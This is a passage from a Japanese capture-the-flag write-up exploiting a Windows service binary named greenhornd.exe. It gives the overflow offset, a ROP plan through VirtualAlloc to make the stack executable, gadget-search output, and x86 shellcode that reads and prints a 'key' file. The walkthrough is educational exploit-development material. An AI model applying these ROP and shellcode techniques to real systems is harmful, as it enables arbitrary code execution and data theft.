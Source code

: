ここまでの情報を整理すると、以下のようになる。これらを踏まえてExploit 作成に移る。

- 1028 バイトのパディングを入れることで、Return address を書き換えることができる
- PEのベースアドレスとスタックのアドレスは、リーク可能

## 3. Exloit コードの作成

まずは、Exploit の方針を明示する。今回は、VirtualAlloc関数を使って、スタックの領域をRWXな領域に変更し、シェルコードを実行して、keyファイルの内容を出力する方針を取る。VirtualAlloc関数の実アドレスは、0x402000(RVA) に存在するため、ROPで本アドレスの中にあるアドレスにジャンプすることを試みる。本コードには、switch文があり、`dword[ecx*4+0x401160]` にjmpする処理が存在する。そのため、ecxを適切な値にしてこのjmp処理に制御を移すことで任意のアドレスにjmpすることができる。そこで、バイナリ中に`pop ecx; ret` が行えるROP Gadgetがあるか調べると、いくつかGadget が見つかるため、本方針でVirtualAlloc関数に飛ばすことは可能だと考えられる。  

```shell
$ rp-osx-x64 -r 1 -f greenhornd.exe | grep 'pop ecx'
0x0040178c: pop ecx ; ret  ;  (1 found)
0x004018b5: pop ecx ; ret  ;  (1 found)
0x00401c20: pop ecx ; ret  ;  (1 found)
```

次に、VirtualAllocでスタックのパーミッションを書き換えた後に実行するシェルコードについて考えてみる。Linux と異なりWindows の場合システムコール番号などが各種OSで異なっておりLinux に比べて生のシステムコールを読ぶのは汎用性が低いシェルコードになってしまう。そのため、Windowsの場合はWin32 APIを呼び出して実行するシェルコードを作成する。今回は、`key` というファイルの中身を見たいので、ファイルを開いて、読み出し、書き出す処理を行う必要がある。そこで、PEバイナリに含まれているReadFileやWriteFileを用いれば良いと考えられるが、これらの関数を実行するためには事前に対象ファイルのファイルハンドラを取得する必要があり、そのためには引数の多いCreateFile関数を呼ばなくてはならない。今回の場合は特に成約が厳しくないが、長さ制限などがある場合は、`_open`, `_read`, `_write` を使ってLinuxライクなシェルコードを作成して短くする方法がある。今回は、その方針で作成した。Windows におけるシェルコード作成方法などについては、[Windowsで電卓を起動するシェルコードを書いてみる](http://inaz2.hatenablog.com/entry/2015/04/23/013858) がとてもわかりやすいので参照してほしい。今回は、本サイトのシェルコードを改変する形で以下のシェルコードを作成した。mainラベルより上はサイトと全く同じため省略する。

```asm
main:
    push 0079656bh	; key
    mov eax, esp
    push 0
    push 0
    push eax
    push 0e12e0c6eh  	; open("key", 0, 0)
    call api_call
    mov ebx, eax        ; ファイルディスクリプタをebxに退避
    push 100h		    ; len
    lea ebp, [esp+100h]	; buffer
    push ebp            
    push ebx
    push 0e70e09a4h	    ; read(fd, esp+100h, 100h)
    call api_call
    push 100h
    push ebp
    push 1
    push 067a78ad5h	    ; write(fd, esp+100h, 100h)
    call api_call
    push 73e2d87eh      ; ExitProcess
    call api_call

end start
```
